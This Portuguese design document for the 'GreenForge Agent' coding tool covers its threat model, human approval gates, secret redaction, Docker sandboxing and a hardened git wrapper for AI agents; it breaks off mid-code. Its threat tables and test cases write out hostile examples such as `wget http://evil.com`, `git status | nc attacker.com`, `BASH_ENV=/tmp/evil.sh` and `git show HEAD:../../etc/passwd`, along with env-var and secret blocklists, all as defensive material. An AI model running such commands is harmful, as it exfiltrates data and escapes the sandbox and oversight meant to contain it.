

# GreenForge Agent — 05: Governança e Segurança

> **Status:** ✅ | **Versão:** 2.3 | **Data:** 2026-05-15
> **Referências:** CVE-2025-68143/68144/68145 (mcp-server-git), OWASP Path Traversal, TAILOR (ASE'22), SQLite WAL Docs, Write-Ahead Log (Kleppmann, DDIA), Environment Poisoning (CVE-2026-22708)

### 📋 Changelog v2.2 → v2.3 — Hardening Crítico de Segurança Terminal
| Vuln | Correção |
|---|---|
| #9 | CostGuardrail por papel: Árbitro ≤ 20% do perTaskBudgetTokens |
| #10 | TERMINAL_INIT path validation: contrato TypeScript completo |
| #11 | Shell allowlist hierárquica: subcomandos Git e NPM mapeados |
| #12 | AgentFactory: hash SHA-256 do system prompt body auditado por reload |

---

## 0. Modelo de Ameaças e Mitigações

> **Regra NEXUS:** Proteções implementadas devem ser declaradas como tabela ameaça → mitigação verificável.

| # | Ameaça | Vetor | Mitigação | Verificação |
|---|---|---|---|---|
| **T-01** | Agente modifica arquivo fora do projeto | Tool `write_file` com path absoluto externo | `assertPathWithinProject()` lança `Error` antes de qualquer escrita | Teste unitário: `write_file('/etc/passwd')` → exceção |
| **T-02** | Segredo exposto em log ou UI | Token SSE `AGENT_TOKEN` contém `GEMINI_API_KEY` | `redactSecrets()` aplicado em todos os outputs antes de emitir | `grep -r 'AIza' .greenforge/logs/` → 0 resultados |
| **T-03** | Comando shell arbitrário via `execute_shell` | Agente chama `rm -rf /` | `SHELL_ALLOWLIST` bloqueia; qualquer base-command não listado → `Error` imediato | Teste: `execute_shell('wget http://evil.com')` → `Error: Comando não permitido` |
| **T-04** | Merge destrutivo não reversível | Aprovação de Gate 2 com mudanças críticas | Rollback via `git revert HEAD` preserva histórico; botão visível 30 min | `git log` pós-rollback contém commit de revert |
| **T-05** | Vazamento de contexto entre worktrees | Agente lê arquivo do worktree do outro agente | `worktreePath` isolado por agente; `assertPathWithinProject()` usa o path do agente específico | Teste: agente propositor tenta `read_file` no path do critic → exceção |
| **T-06** | Execução de código gerado sem aprovação | Debate converge e merge acontece automaticamente | Gate 1 e Gate 2 são bloqueadores síncronos via `Promise` pendente; `APPROVAL_MODE=yolo` deve ser explícito | Com `APPROVAL_MODE=manual`: qualquer merge sem `HITL_DECISION {APPROVE}` → `Error` |
| **T-07** | Exaustão de quota da API por loop de agentes | AutoFixLimiter não funcionando | `AutoFixAttempt.attemptNumber <= 3` validado antes de cada retry; falha na 4ª → HITL Gate | Teste: forçar 4 erros → Gate exibido na 4ª tentativa, sem 5ª chamada LLM |
| **T-08** | Custo excessivo por chamada 1M tokens sem conhecimento do usuário | `LazyContextLoader` eleva budget silenciosamente | `CONTEXT_EXTENDED_BUDGET` só é usado após `HITL_GATE {gateType: 'COST_APPROVAL'}` aprovado | Teste: `contextBudget=1_000_000` sem gate → `Error: ExtendedBudgetRequiresApproval` |
| **T-09** | Environment Poisoning via variáveis injetadas por agente malicioso | Agente escreve `PAGER=malicious_binary` antes de `git log` permitido | `sanitizeEnv()` destrói todas as vars fora da allowlist ANTES de cada exec; `DANGEROUS_ENV_VARS` inclui `GIT_EXEC_PATH`, `GIT_PAGER`, `PAGER`, `GIT_SSH_COMMAND` | Teste: `GIT_PAGER=wget http://evil.com git log` → var removida, wget nunca invocado |

### Fluxo de Aprovação WebSocket (Anti Race Condition)



---

## 1. Modelo de Segurança do MVP

### 1.1 Justificativa Teórica: WAL Intent Log como Contrato de Atomicidade (v2.3)

> **Fonte:** Pesquisa Técnica Profunda v2.3, Ponto 1. Integrado aqui como fundamentação arquitetural para o contrato de resiliência.

O mecanismo do **BootReconciler** não é uma decisão de implementação arbitária — é a aplicação direta do princípio teórico de Write-Ahead Logging formalizado pela ciência de banco de dados:

**O princípio WAL:** Em computação, o Write-Ahead Logging (WAL) é uma família de técnicas para prover atomicidade e durabilidade em sistemas de banco de dados. Um write-ahead log é uma estrutura auxiliar residente em disco, **append-only**, usada para recuperação de crash e transação. As mudanças são primeiro registradas no log, que **deve ser escrito em armazenamento estável**, antes de as mudanças serem escritas no banco.

**Por que o SQLite sozinho não resolve:** Transações que envolvem mudanças contra múH ltiplos databases `ATTACH`ed são atômicas para cada database individual, **mas não são atômicas através de todos os databases como conjunto**. O GreenForge opera sobre dois sistemas heterogêneos (Git filesystem + SQLite DB) que não compartilham um mecanismo de commit unitário. Logo, o Intent Log no filesystem é **obrigatório** — não é otimização.

**Mecanismo de sobrevivência ao SIGKILL (via rename atômico):** O OS é livre para reordenar operações em disco, e muitas operações de arquivo não são atômicas. A técnica padrão é: escrever em arquivo temporário e então **renomeá-lo** para o local final — o `rename(2)` POSIX é atômico e indivisível mesmo sob SIGKILL. O `fsync()` antes do rename garante que os dados chegaram ao disco antes da troca.

**Custo e trade-off documentado:** O `fsync()` é uma operação cara. Para o GreenForge, isso adiciona ~5-10ms de latência por checkpoint. A decisão é deliberada: o contrato de resiliência (zero stashes órfãos) vale mais do que a latência.

### 1.2 Premissa de Segurança (MVP Local)

**Premissa de segurança:** Acesso físico ou via rede local à máquina hospedeira implica autorização de uso. O perímetro de segurança é o sistema operacional do usuário, não um formulário de login.

**Justificativa:** Autenticação em um MVP local adiciona fricção sem valor para o caso de uso primário (desenvolvedor individual em sua própria máquina). A arquitetura suporta adição de auth em versões futuras sem breaking changes (ver Roadmap: v3.0).

**O que o MVP não tem:**
- Formulário de login/senha
- OAuth / JWT de sessão de usuário
- RBAC (Role-Based Access Control)
- Auditoria de acesso por usuário

**O que o MVP tem:**
- Isolamento de execução via git worktrees (agentes não acessam fora do worktree)
- Sandbox Docker opcional para execução de código não confiável
- Política de redação de segredos em todos os logs e na UI
- HITL Gates obrigatórios para operações de alto risco

---

## 2. Modos de Aprovação

### 2.1 Definição dos Modos

| Modo | Comportamento | Caso de Uso |
|---|---|---|
| `manual` | Aprovação explícita para cada operação (Gate 0, 1 e 2 sempre ativos) | Trabalho em código de produção |
| `auto_edit` | Gate 1 ativo; Gate 2 auto-aprova chunks sem Red Flags | Desenvolvimento confiante |
| `yolo` | Sem gates — executa tudo automaticamente | CI/CD, scripts automatizados |

### 2.2 Red Flags que Sempre Requerem Aprovação Manual

Independente do `APPROVAL_MODE`, as operações abaixo sempre pausam para aprovação:

| Categoria | Operação | Severidade |
|---|---|---|
| **Destruição** | Deleção de arquivos (`rm`, `unlink`, `DELETE`) | 🔴 CRÍTICO |
| **Secrets** | Modificação de `.env`, `.env.local`, arquivos de secrets | 🔴 CRÍTICO |
| **Dependências** | Alteração de `package.json`, `go.mod`, `requirements.txt` | 🔴 CRÍTICO |
| **CI/CD** | Edição de `.github/workflows/`, `Dockerfile`, `docker-compose.yml` | 🔴 CRÍTICO |
| **Breaking Changes** | Mudanças em APIs públicas, schema de banco de dados | 🟠 ALTO |
| **Security Issues** | Qualquer issue com `severity: "high"` no debate | 🟠 ALTO |
| **Multi-arquivo** | Mudanças em mais de 5 arquivos simultaneamente | 🟡 MÉDIO |
| **Testes** | Deleção ou modificação de arquivos de teste | 🟡 MÉDIO |

### 2.3 ApprovalGate na UI Web — Validação com PreExecutionGuard (OCC + HMAC)

O mecanismo de aprovação na IDE usa WebSocket (Socket.IO) para garantir zero race condition entre o sinal de aprovação e a continuação do debate.

#### Fluxo Base (v2.2)

```typescript
// 1. Servidor emite via SSE: { type: 'HITL_GATE', gateId, payload }
// 2. UI exibe Approval Card
// 3. Usuário clica [APROVAR]
// 4. UI envia via WebSocket: { type: 'HITL_DECISION', gateId, decision: 'APPROVE' }
// 5. Servidor resolve a Promise suspensa e continua o debate

// O uso de WebSocket (não HTTP POST) garante que o sinal de aprovação
// chegue pelo mesmo canal bidirecional, sem enfileiramento HTTP.
```

#### PreExecutionGuard com Optimistic Concurrency Control (v2.3)

**Problema:** O protocolo base garante zero race condition no *sinal* de aprovação, mas não valida se o *estado do servidor* quando da execução corresponde ao estado que o usuário aprovou. Se o servidor muda estado via `STEER_AGENT` entre a emissão do gate (tempo T) e a aprovação (tempo T+Δ), o usuário aprova trade-offs de T mas código é gerado baseado em T+Δ.

**Solução:** Adicionar `resourceVersion` (stateHash + worktreeHash) + `epoch_id` + HMAC ao payload do gate.

```typescript
interface HITLGatePayload {
  gateId: string;
  payload: ApprovalCardData;
  // Novo em v2.3:
  stateHash: string;              // Hash SHA-256 do estado do debate em T
  worktreeHash: string;           // Hash dos arquivos do projeto em T
  epoch_id: number;               // Fencing token para invalidar gates pós-restart
  gateHMAC: string;               // HMAC do payload (detecta tampering de cliente)
}

// Geração do payload (no servidor):
function createGatePayload(
  gateId: string,
  data: ApprovalCardData,
  currentState: DebateState,
  worktreePath: string,
  epochId: number,
  hmacSecret: string
): HITLGatePayload {
  const stateHash = crypto.createHash('sha256')
    .update(JSON.stringify(currentState)).digest('hex');
  
  const worktreeHash = hashWorktreeState(worktreePath);
  
  const payload: HITLGatePayload = {
    gateId,
    payload: data,
    stateHash,
    worktreeHash,
    epoch_id: epochId,
    gateHMAC: '', // Será preenchido abaixo
  };
  
  // Serializa e calcula HMAC
  const payload_str = JSON.stringify(payload);
  payload.gateHMAC = crypto.createHmac('sha256', hmacSecret)
    .update(payload_str).digest('hex');
  
  return payload;
}

// Validação no momento de resolveHITL (no servidor):
function validateGateConsistency(
  gate: HITLGatePayload,
  currentState: DebateState,
  currentEpochId: number,
  worktreePath: string,
  hmacSecret: string
): { valid: boolean; reason?: string } {
  
  // 1. Valida epoch — gate de ciclo anterior é inválido (pós-restart)
  if (gate.epoch_id !== currentEpochId) {
    return { valid: false, reason: 'Gate inválido — servidor foi reinicializado' };
  }
  
  // 2. Valida HMAC — detecta tampering do cliente
  const expectedHMAC = crypto.createHmac('sha256', hmacSecret)
    .update(JSON.stringify({ ...gate, gateHMAC: '' })).digest('hex');
  
  if (gate.gateHMAC !== expectedHMAC) {
    return { valid: false, reason: 'HMAC inválido — payload foi modificado' };
  }
  
  // 3. Valida state hash — detecta mutações intra-época
  const currentStateHash = crypto.createHash('sha256')
    .update(JSON.stringify(currentState)).digest('hex');
  
  if (gate.stateHash !== currentStateHash) {
    // Estado mudou entre T (emissão) e T+Δ (aprovação)
    // Rejeita implicitamente — UI deve recarregar e solicitar nova aprovação
    return { 
      valid: false, 
      reason: `Estado do debate mudou desde a exibição do gate. Recarregue a página para reavaliar.` 
    };
  }
  
  // 4. Valida worktree hash — previne aprovação de gate baseado em artefatos desatualizados
  const currentWorktreeHash = hashWorktreeState(worktreePath);
  if (gate.worktreeHash !== currentWorktreeHash) {
    return { 
      valid: false, 
      reason: `Arquivos do projeto foram alterados. Gate inválido — recarregue a página.` 
    };
  }
  
  return { valid: true };
}

// Integração em resolveHITL:
async function resolveHITL(
  gateId: string,
  decision: 'APPROVE' | 'REJECT',
  gate: HITLGatePayload,
  serverState: ServerState
): Promise<void> {
  
  const validation = validateGateConsistency(
    gate,
    serverState.currentDebateState,
    serverState.currentEpochId,
    serverState.worktreePath,
    serverState.hmacSecret
  );
  
  if (!validation.valid) {
    // Rejeita aprovação com mensagem de erro clara
    sseTransport.emitSystemAlert('GATE_VALIDATION_FAILED', {
      gateId,
      reason: validation.reason,
      severity: 'WARN',
    });
    return;
  }
  
  // Gate passou na validação — prossegue com a aprovação
  if (decision === 'APPROVE') {
    await continueDebate(gate.payload);
  } else {
    await abortDebate('Usuário rejeitou o gate');
  }
}
```

---

## 3. Política de Redação de Segredos

### 3.1 Pontos de Aplicação

Quando `SECRET_REDACTION_ENABLED=true` (padrão), as seguintes strings são redatadas antes de qualquer log ou exibição na UI:

```typescript
const SECRET_PATTERNS = [
  /GEMINI_API_KEY=\S+/gi,
  /Authorization:\s*Bearer\s+\S+/gi,
  /password['":\s]+\S+/gi,
  /secret['":\s]+\S+/gi,
  /token['":\s]+[A-Za-z0-9\-_]{20,}/gi,
  /sk-[A-Za-z0-9]{20,}/g,       // OpenAI keys
  /AIza[A-Za-z0-9\-_]{35}/g,    // Google API keys
];

function redactSecrets(text: string): string {
  return SECRET_PATTERNS.reduce(
    (acc, pattern) => acc.replace(pattern, '[REDACTED]'),
    text
  );
}
```

### 3.2 Pontos de Aplicação Obrigatórios

- `LLMCallLog.prompt` e `LLMCallLog.response` — antes de persistir no DB
- Eventos SSE (`AGENT_TOKEN`, `DEBATE_STATUS`) — antes de emitir ao browser
- Output do terminal (PTY stdout) — antes de enviar via WebSocket
- Logs do servidor (stdout/stderr do processo Node.js)

---

## 4. Sandbox de Execução

### 4.1 Modo Local (padrão do MVP)

```
SANDBOX_MODE=local

Comportamento:
  - Agentes executam comandos shell diretamente no worktree (processo filho)
  - Proteção: assertPathWithinProject() valida que qualquer operação de FS
    está dentro do worktree do agente
  - Proteção: SHELL_ALLOWLIST restringe comandos executáveis
  - Sem isolamento de rede ou recursos de CPU/RAM
```

### 4.2 Modo Docker (recomendado para staging/CI)

```yaml
# docker-compose.greenforge.yml
services:
  agent_proposer:
    image: greenforge-agent:latest
    read_only: true               # Filesystem root é read-only
    tmpfs:
      - /tmp:size=512m            # Escrita apenas em /tmp
    volumes:
      - ./worktrees/proposer:/workspace:rw  # Apenas o worktree
    cap_drop:
      - ALL                       # Remove todas as Linux capabilities
    cap_add:
      - CHOWN
      - DAC_OVERRIDE              # Mínimo necessário
    security_opt:
      - no-new-privileges:true    # Previne escalação de privilégios
    mem_limit: 512m
    cpus: "0.5"
    network_mode: none            # Sem acesso à rede externa
```

### 4.3 Shell & Environment Hardening (Audit v2.1)

A execução de comandos shell agora segue um protocolo de **defesa em profundidade**, prevenindo bypasses via injeção de argumentos ou variáveis de ambiente envenenadas (ex: CVE-2026-22708).

#### Camada 1: Sanitização de Ambiente (Allowlist Estrita)
O servidor descarta todas as variáveis de ambiente herdadas, exceto uma allowlist explícita. Vetores de injeção como `BASH_ENV`, `ENV`, `LD_PRELOAD` e `IFS` são bloqueados no nível de spawn do PTY.

```typescript
const ENV_ALLOWLIST = ['PATH', 'HOME', 'USER', 'NODE_ENV', 'TERM', 'LANG'];
```

#### Camada 2: Validação de Path Traversal
Toda inicialização de terminal (`TERMINAL_INIT`) exige um `worktreePath`. O servidor valida se o path resolvido está dentro de `AUTHORIZED_WORKTREES_ROOT`.

```typescript
// v2.2 — vuln #10: contrato completo com disconexion e log de auditoria
import * as path from 'path';

function validateWorktreePath(worktreePath: string): string {
  const authorizedRoot = process.env.AUTHORIZED_WORKTREES_ROOT;
  if (!authorizedRoot) {
    throw new SecurityError('AUTHORIZED_WORKTREES_ROOT não configurado. Servidor não pode iniciar PTY.');
  }
  const resolvedPath = path.resolve(worktreePath);
  const resolvedRoot = path.resolve(authorizedRoot);
  if (!resolvedPath.startsWith(resolvedRoot + path.sep) && resolvedPath !== resolvedRoot) {
    // Registra no AuditLog antes de rejeitar
    void prisma.auditLog.create({
      data: { entityType: 'SecurityViolation', entityId: 'TERMINAL_INIT',
              action: 'PATH_TRAVERSAL_BLOCKED', actor: 'system',
              newState: JSON.stringify({ attempted: worktreePath, resolved: resolvedPath }) }
    });
    throw new SecurityError(`Path traversal detectado: '${resolvedPath}' fora de '${resolvedRoot}'.`);
  }
  return resolvedPath;
}
```

#### Camada 3: Allowlist Hierárquica de Subcomandos
Não basta permitir o binário `git`. É necessário validar subcomandos e flags.

> **v2.2 — vuln #11:** A validação anterior verificava apenas o comando base. Agora valida subcomandos e flags explícitos por allowlist, bloqueando vetores como `git config --global core.hooksPath`.

| Binário | Subcomandos Permitidos | Subcomandos/Flags Bloqueados |
|---|---|---|
| `git` | `status`, `diff`, `add`, `commit`, `checkout`, `branch`, `merge`, `rebase`, `stash`, `revert`, `log`, `show` | `clone`, `config`, `worktree add`, `--upload-pack`, `--receive-pack`, `--global` |
| `npm` | `install`, `test`, `run`, `build`, `ci` | `--prefix`, `--global`, `--workspaces`, `publish` |

```typescript
// v2.2 — vuln #11: allowlist hierárquica com validação de subcomandos
const SHELL_ALLOWLIST: Record<string, { allowed: string[]; blocked: string[] }> = {
  git: {
    allowed: ['status', 'diff', 'add', 'commit', 'checkout', 'branch', 'merge',
              'rebase', 'stash', 'revert', 'log', 'show'],
    blocked: ['clone', 'config', 'worktree', '--upload-pack', '--receive-pack', '--global'],
  },
  npm: {
    allowed: ['install', 'test', 'run', 'build', 'ci'],
    blocked: ['publish', '--global', '--prefix', '--workspaces'],
  },
};
```

#### secureGit Wrapper com AST Parsing (v2.3 — Resolução de Vulnerabilidade #4)

**Problema:** O allowlist hierárquico bloqueia subcomandos globais (ex: `git config`), mas não previne path traversal dentro dos argumentos. Vetores como `git show HEAD:../../etc/passwd` e `git diff -- ../../.env` contornam a validação porque:
1. Subcomando `show` e `diff` estão na allowlist
2. A validação v2.2 não analisa o conteúdo dos argumentos
3. Git interpreta paths relativos: `HEAD:../../etc/passwd` escapa do worktree

**Solução:** Implementar secureGit Wrapper que:
1. Parseia o comando shell em AST completo (via `tree-sitter` shell grammar)
2. Valida subcomandos contra allowlist
3. Para cada subcomando, aplica regras específicas de pathArgs
4. Bloqueia command expansion, process substitution, e pipes não autorizados
5. Sanitiza variáveis de ambiente antes de exec

```typescript
import * as fs from 'fs';
import * as path from 'path';
import { exec } from 'child_process';
import Parser from 'tree-sitter';
import Language from 'tree-sitter-bash';

// Definir semântica de validação de paths para cada subcomando
interface GitSubcommandPolicy {
  allowPaths: boolean;               // Se pode aceitar argumentos path
  pathRestriction: 'WITHIN_WORKTREE' | 'BRANCHES_ONLY' | 'NONE';
  allowedRefPatterns: RegExp[];       // ex: /^HEAD/, /^refs\/heads\//
  allowedPathPatterns: RegExp[];      // ex: /^[a-zA-Z0-9._\/-]+$/
  blockedPathPatterns: RegExp[];      // ex: /^\.\.\//, /^\//, /^~\//
}

const GIT_SUBCOMMAND_POLICY: Record<string, GitSubcommandPolicy> = {
  status: {
    allowPaths: false,
    pathRestriction: 'NONE',
    allowedRefPatterns: [],
    allowedPathPatterns: [],
    blockedPathPatterns: []
  },
  diff: {
    allowPaths: true,
    pathRestriction: 'WITHIN_WORKTREE',
    allowedRefPatterns: [/^HEAD$/, /^HEAD~\d+$/, /^refs\/heads\/.+/],
    allowedPathPatterns: [/^[a-zA-Z0-9._\/-]+$/, /^\.\/[a-zA-Z0-9._\/-]+$/],
    blockedPathPatterns: [/^\.\.\//, /^\//, /^~\//, /^~\w+\//]
  },
  show: {
    allowPaths: true,
    pathRestriction: 'BRANCHES_ONLY',  // Somente refs, não paths locais
    allowedRefPatterns: [/^HEAD(:[^:]+)?$/, /^refs\/heads\/.+/],
    allowedPathPatterns: [],  // show NÃO aceita paths locais, apenas refs
    blockedPathPatterns: [/^\.\.\//, /^\//, /^~\//, /:.+\.\.\//]  // Bloqueia HEAD:../../file
  },
  log: {
    allowPaths: true,
    pathRestriction: 'BRANCHES_ONLY',
    allowedRefPatterns: [/^HEAD$/, /^refs\/.+/, /^--all/],
    allowedPathPatterns: [],
    blockedPathPatterns: [/^--remotes/, /^--glob=/, /:..\//]  // Bloqueia --remotes, glob patterns
  },
  add: {
    allowPaths: true,
    pathRestriction: 'WITHIN_WORKTREE',
    allowedRefPatterns: [],
    allowedPathPatterns: [/^[a-zA-Z0-9._\/-]+$/, /^\.\/[a-zA-Z0-9._\/-]+$/],
    blockedPathPatterns: [/^\.\.\//, /^\//, /^~\//]
  },
  commit: {
    allowPaths: true,
    pathRestriction: 'WITHIN_WORKTREE',
    allowedRefPatterns: [],
    allowedPathPatterns: [/^[a-zA-Z0-9._\/-]+$/, /^\.\/[a-zA-Z0-9._\/-]+$/],
    blockedPathPatterns: [/^\.\.\//, /^\//, /^~\//]
  },
  checkout: {
    allowPaths: true,
    pathRestriction: 'BRANCHES_ONLY',
    allowedRefPatterns: [/^HEAD~\d+$/, /^refs\/heads\/.+/, /^[a-zA-Z0-9_-]+$/],  // Branch names only
    allowedPathPatterns: [/^[a-zA-Z0-9._\/-]+$/],  // Paths local OK
    blockedPathPatterns: [/^\.\.\//, /^\//, /^~\//]
  },
};

// Parser AST via tree-sitter
const parser = new Parser();
parser.setLanguage(Language);

function parseShellCommand(cmdStr: string) {
  const tree = parser.parse(cmdStr);
  return tree.rootNode;
}

// Validação de AST com tree-sitter
function validateGitCommand(cmdStr: string, worktreePath: string): boolean {
  try {
    const ast = parseShellCommand(cmdStr);
    
    // Bloqueia command expansion, process substitution, pipes
    validateASTNodeSafety(ast);
    
    // Extrai comando e subcomando
    const [gitBinary, subcommand, ...args] = extractCommandParts(ast);
    
    if (gitBinary !== 'git') {
      throw new Error(`Esperava 'git', recebeu '${gitBinary}'`);
    }
    
    if (!subcommand) {
      throw new Error('Subcomando ausente');
    }
    
    const policy = GIT_SUBCOMMAND_POLICY[subcommand];
    if (!policy) {
      throw new Error(`Subcomando '${subcommand}' não permitido`);
    }
    
    // Valida argumentos de path conforme a política
    if (policy.allowPaths) {
      for (const arg of args) {
        if (arg.startsWith('-')) continue;  // Skip flags
        
        // Valida contra padrões bloqueados
        for (const blocked of policy.blockedPathPatterns) {
          if (blocked.test(arg)) {
            throw new Error(
              `Path bloqueado para 'git ${subcommand}': '${arg}' corresponde ${blocked.toString()}`
            );
          }
        }
        
        // Valida contra padrões permitidos (se houver)
        if (policy.allowedPathPatterns.length > 0) {
          const matches = policy.allowedPathPatterns.some(p => p.test(arg));
          if (!matches) {
            throw new Error(
              `Path não permitido para 'git ${subcommand}': '${arg}'`
            );
          }
        }
        
        // Para restriction WITHIN_WORKTREE, resolve path e valida
        if (policy.pathRestriction === 'WITHIN_WORKTREE') {
          const resolved = path.resolve(worktreePath, arg);
          if (!resolved.startsWith(path.resolve(worktreePath) + path.sep)) {
            throw new Error(
              `Path escapa do worktree: '${arg}' → '${resolved}'`
            );
          }
        }
      }
    }
    
    return true;
  } catch (err) {
    console.error(`[secureGit] Validação falhou: ${(err as Error).message}`);
    return false;
  }
}

// Detecta nós perigosos no AST
function validateASTNodeSafety(node: any): void {
  // Bloqueia CommandExpansion ($(...)  ou `...`)
  if (node.type === 'command_substitution') {
    throw new Error('Command expansion não permitida');
  }
  
  // Bloqueia ProcessSubstitution (<(...) ou >(...)
  if (node.type === 'process_substitution') {
    throw new Error('Process substitution não permitida');
  }
  
  // Bloqueia pipes (|, |&)
  if (node.type === 'pipeline') {
    throw new Error('Pipes não permitidas');
  }
  
  // Bloqueia background execution (&)
  if (node.type === 'background') {
    throw new Error('Background execution não permitida');
  }
  
  // Recursivamente valida filhos
  for (const child of node.children ?? []) {
    validateASTNodeSafety(child);
  }
}

// Extrai [binary, subcomando, ...args] do AST
function extractCommandParts(node: any): string[] {
  const parts: string[] = [];
  
  function traverse(n: any) {
    if (n.type === 'simple_command' || n.type === 'command') {
      for (const child of n.children ?? []) {
        if (child.type === 'command_name' || child.type === 'word') {
          parts.push(child.text);
        }
      }
    } else {
      for (const child of n.children ?? []) {
        traverse(child);
      }
    }
  }
  
  traverse(node);
  return parts;
}

// Sanitização de Variáveis de Ambiente
const ENV_BLOCKLIST = [
  'BASH_ENV', 'ENV', 'LD_PRELOAD', 'LD_LIBRARY_PATH',
  'DYLD_LIBRARY_PATH', 'DYLD_INSERT_LIBRARIES',
  'IFS', 'CDPATH', 'PS1', 'PS2',
  'HISTFILE', 'HISTCONTROL',
  'MANPATH', 'INFOPATH',
];

function sanitizeEnv(): NodeJS.ProcessEnv {
  const cleanEnv: NodeJS.ProcessEnv = {};
  const allowlist = ['PATH', 'HOME', 'USER', 'NODE_ENV', 'TERM', 'LANG'];
  
  for (const key of allowlist) {
    if (process.env[key]) {
      cleanEnv[key] = process.env[key];
    }
  }
  
  // Remove todos os blocklist vars explicitamente
  for (const blocked of ENV_BLOCKLIST) {
    delete cleanEnv[blocked];
  }
  
  return cleanEnv;
}

// Wrapper final
async function executeSecureGit(
  cmdStr: string,
  worktreePath: string
): Promise<string> {
  // 1. Valida AST + allowlist
  if (!validateGitCommand(cmdStr, worktreePath)) {
    throw new Error(`[secureGit] Comando bloqueado: ${cmdStr}`);
  }
  
  // 2. Sanitiza ambiente
  const cleanEnv = sanitizeEnv();
  
  // 3. Executa com umask restritivo
  const oldUmask = process.umask(0o077);  // rwx------ permissions only
  
  try {
    return new Promise((resolve, reject) => {
      exec(cmdStr, {
        cwd: worktreePath,
        env: cleanEnv,
        timeout: 30000,  // 30s timeout
        maxBuffer: 1024 * 1024,  // 1MB stdout max
      }, (error, stdout, stderr) => {
        if (error) {
          reject(new Error(`[secureGit] Execução falhou: ${stderr}`));
        } else {
          resolve(stdout);
        }
      });
    });
  } finally {
    process.umask(oldUmask);
  }
}

// Export para uso em debug, state mutation, PTY executions
export { executeSecureGit, validateGitCommand };
```

#### Impacto de Segurança (v2.3)

| Vetor de Ataque | v2.2 | v2.3 | Validação |
|---|---|---|---|
| `git show HEAD:../../etc/passwd` | ❌ Passa allowlist | ✅ Bloqueado | AST parsing + regex `:..\//` |
| `git log --remotes` | ❌ Passa allowlist | ✅ Bloqueado | Regex `/^--remotes/` em policy |
| `git diff -- ../../.env` | ❌ Passa allowlist | ✅ Bloqueado | Path traversal detection |
| `git config --global core.hooksPath` | ❌ Passa allowlist | ✅ Bloqueado | Subcomando `config` removido |
| `BASH_ENV=/tmp/evil.sh git add` | ❌ Executa | ✅ Bloqueado | Sanitização de ENV |
| `git status \| nc attacker.com` | ❌ Passa allowlist | ✅ Bloqueado | AST bloqueia pipes |

#### Implementação Canônica Final: `secure-git-wrapper.ts` v2.3 (Dossiê de Infraestrutura)

> **Nota:** Esta é a implementação de referência do Dossiê de Infraestrutura v2.3. Ela **substitui e supercede** a implementação v2.2 acima, adotando `execa` (shell: false implícito), validação Zod, e `FORBIDDEN_ENV_VARS` com cobertura CVE completa. O código v2.2 permanece documentado para fins históricos.

```typescript
// secure-git-wrapper.ts — GreenForge v2.3 FINAL
// Fonte: Dossiê de Implementação v2.3, GAP 3
// Defesa em profundidade contra:
//   CVE-2026-3854  (GitHub RCE via push option injection)
//   CVE-2026-25763 (OpenProject git log --output= injection)
//   CVE-2025-68144 (mcp-server-git argument injection)
//   CVE-2023-29007 (Git arbitrary config injection via core.pager)
//   CVE-2017-8386  (git-shell pager bypass via less)
import { realpath } from 'fs/promises';
import path         from 'path';
import { execa }    from 'execa';
import { z }        from 'zod';

// ═══════════════════════════════════════════════════════════
// SEÇÃO 1: VARIÁVEIS DE AMBIENTE PERIGOSAS (18 entradas)
// ═══════════════════════════════════════════════════════════
// Mesmo com spawn({ shell: false }), estas vars podem armar
// comandos permitidos. Ex: PAGER=malicious_binary git log
const FORBIDDEN_ENV_VARS: ReadonlySet<string> = new Set([
  // Pagers — vetores de escalada (CVE-2017-8386)
  'GIT_PAGER', 'PAGER', 'MANPAGER',
  'LESS',           // Controla flags do less — habilita execução de shell

  // Executáveis externos — RCE direto
  'GIT_EDITOR', 'EDITOR', 'VISUAL',
  'GIT_SSH', 'GIT_SSH_COMMAND', 'GIT_PROXY_COMMAND',
  'GIT_ASKPASS', 'SSH_ASKPASS',
  'GIT_EXTERNAL_DIFF',  // Executa diff handler externo por linha modificada

  // Redirecionamento de paths de execução — sandbox escape
  'GIT_EXEC_PATH',      // Onde git busca subcomandos
  'GIT_TEMPLATE_DIR',   // Pode injetar hooks maliciosos

  // Injeção de configuração — CVE-2023-29007
  'GIT_CONFIG_COUNT', 'GIT_CONFIG_KEY_0', 'GIT_CONFIG_VALUE_0',

  // Logging em paths arbitrários
  'GIT_TRACE', 'GIT_TRACE2', 'GIT_TRACE_PERFORMANCE', 'GIT_TRACE2_EVENT',

  // Variáveis de autenticação que podem vazar credenciais
  'GIT_TERMINAL_PROMPT', 'GIT_CREDENTIAL_HELPER',
]);

// ═══════════════════════════════════════════════════════════
// SEÇÃO 2: ALLOWLIST POSITIVA COM POLÍTICAS POR SUBCOMANDO
// ═══════════════════════════════════════════════════════════
interface SubcommandPolicy {
  allowedFlags:   ReadonlySet<string>;
  forbiddenFlags: ReadonlySet<string>; // Dupla proteção para vetores CVE conhecidos
  allowPathArgs:  boolean;
  allowRefArgs:   boolean;
  maxArgs:        number;
}

const GIT_POLICY: Readonly<Record<string, SubcommandPolicy>> = {
  'status': {
    allowedFlags: new Set(['-s', '--short', '--porcelain', '--branch', '-b']),
    forbiddenFlags: new Set([]), allowPathArgs: false, allowRefArgs: false, maxArgs: 2,
  },
  'log': {
    allowedFlags: new Set(['--oneline', '--graph', '--decorate', '--no-decorate', '-n', '--format', '--name-only', '--stat']),
    forbiddenFlags: new Set(['--output', '--exec']),  // CVE-2026-25763
    allowPathArgs: false, allowRefArgs: true, maxArgs: 5,
  },
  'diff': {
    allowedFlags: new Set(['--stat', '--name-only', '--name-status', '--cached', '--staged', '--shortstat']),
